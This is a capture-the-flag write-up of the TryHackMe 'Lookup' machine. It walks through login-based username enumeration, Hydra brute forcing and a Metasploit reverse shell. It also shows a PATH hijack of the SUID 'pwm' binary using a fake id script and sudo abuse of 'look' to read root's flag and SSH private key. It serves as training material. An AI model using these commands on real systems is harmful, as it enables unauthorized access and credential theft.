 New techniques are introduced in this machine.

Starting with machine enumeration:

```
┌──(kali㉿kali)-[~/Desktop/THM/Lookup]
└─$ nmap lookup.thm > open_ports.txt
                                                                                                                                                 
┌──(kali㉿kali)-[~/Desktop/THM/Lookup]
└─$ cat open_ports.txt                                                                                                        
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-17 23:30 IST
Nmap scan report for lookup.thm (10.10.153.211)
Host is up (0.51s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

SSH and HTTP, as usual.


The webpage is a simple logging page. Also, subdirectories fuzzing doesn't give any output. But the logging page is interesting.

<img src=https://github.com/user-attachments/assets/12a07695-a218-488e-a182-4d688df8faed>
<img src=https://github.com/user-attachments/assets/db7ec46e-28a5-4ea7-9e31-977b39e64c78>

Two different outputs. If the username is correct, Wrong password; if the username is wrong, Wrong username or password. So, we can try different names to find the users present and then use 
Hydra to find the user's password. I used ChatGPT to provide me with a script for this. The two users found are admin and jose. Then Hydra can be used to find the password, but I manually 
tried some command passwords and managed to get the password.

Upon logging in, it will redirect to a URL: files.lookup.thm. We can see the web page's content by adding it to the /etc/hosts file. Elfinder is an open-source file manager for the web. Inspecting
the files, I found a user named 'think'. It can be a user on the machine. Then, I used Metasploit to gain a reverse shell, and then, from the meterpreter, I used bash reverse shell to gain another reverse
shell.

Finding the binaries with the SUID bit set, I found a strange binary: pwm `(/usr/sbin/pwm)`. Looking at pwm, it is a password manager. I looked for it in GTFOBins. But it was not there.
Also, checking the home directory, I see that there is a user 'think'.

```
www-data@lookup:/home/think$ ls -la
ls -la
total 40
drwxr-xr-x 5 think think 4096 Jan 11  2024 .
drwxr-xr-x 3 root  root  4096 Jun  2  2023 ..
lrwxrwxrwx 1 root  root     9 Jun 21  2023 .bash_history -> /dev/null
-rwxr-xr-x 1 think think  220 Jun  2  2023 .bash_logout
-rwxr-xr-x 1 think think 3771 Jun  2  2023 .bashrc
drwxr-xr-x 2 think think 4096 Jun 21  2023 .cache
drwx------ 3 think think 4096 Aug  9  2023 .gnupg
-rw-r----- 1 root  think  525 Jul 30  2023 .passwords
-rwxr-xr-x 1 think think  807 Jun  2  2023 .profile
drw-r----- 2 think think 4096 Jun 21  2023 .ssh
lrwxrwxrwx 1 root  root     9 Jun 21  2023 .viminfo -> /dev/null
-rw-r----- 1 root  think   33 Jul 30  2023 user.txt
```

When the PWM binary is run, the output is as follows:

```
www-data@lookup:/home/think$ /usr/sbin/./pwm
/usr/sbin/./pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```

So, this binary runs the 'id' binary to get the info the user running the command (www-data in the above case) and then fetches the passwords file. The output is not found because there is no 
www-data folder in the home directory. I could make a temporary id binary which will output the user as user 'think' and give the content of the passwords file in the /home/think/ directory.

```
www-data@lookup:/home$ echo '#!/bin/bash' > /tmp/id
echo '#!/bin/bash' > /tmp/id
www-data@lookup:/home$ echo 'echo "uid=33(think) gid=33(think) groups=(think)"' >> /tmp/id
echo 'echo "uid=33(think) gid=33(think) groups=(think)"' >> /tmp/id
www-data@lookup:/home$ chmod +x /tmp/id
chmod +x /tmp/id
www-data@lookup:/home$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
www-data@lookup:/home$ /usr/sbin/pwm
/usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
<content of the file>
```

With this wordlist, I could use Hydra to find the user's password.

```
┌──(kali㉿kali)-[~/Desktop/THM/Lookup]
└─$ hydra -l think -P password_list ssh://lookup.thm
```


Logging in as the think user using SSH, the first thing to check is the sudoers file:

```
think@lookup:~$ sudo -l
[sudo] password for think: 
Matching Defaults entries for think on lookup:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on lookup:
    (ALL) /usr/bin/look
```

GTFOBins is the best companion. We could use the command mentioned to read the root flag, or if we have to gain a shell, we could read the id_rsa key, which is used in logging with SSH.
The command will be:

`sudo /usr/bin/look '' /root/root.txt`

For id_rsa:

`sudo /usr/bin/look/ '' /root/.ssh/id_rsa`

